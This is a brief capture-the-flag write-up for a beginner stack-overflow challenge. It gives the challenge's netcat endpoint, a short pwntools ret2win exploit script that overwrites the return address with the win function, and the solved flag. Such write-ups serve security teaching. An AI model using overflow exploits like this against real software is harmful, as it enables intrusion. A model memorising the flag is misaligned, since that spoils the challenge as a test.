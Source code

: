 # Basics 1 | NoobMaster
- Description: Welcome, hope you enjoy pwning!

remote:nc challs.n00bzunit3d.xyz 32190
chall:/attachments/basics1/attachment.zip

# Write up
Simple ret2win, script -

```py
from pwn import *
elf = context.binary = ELF('../attachment/./chall')
io = elf.process()
io.sendline(b'A'*152 + pack(elf.symbols.win))
io.interactive()
```

# Flag - n00bz{b4s1c_r3t_t0_w1n_f0r_7he_w1n!}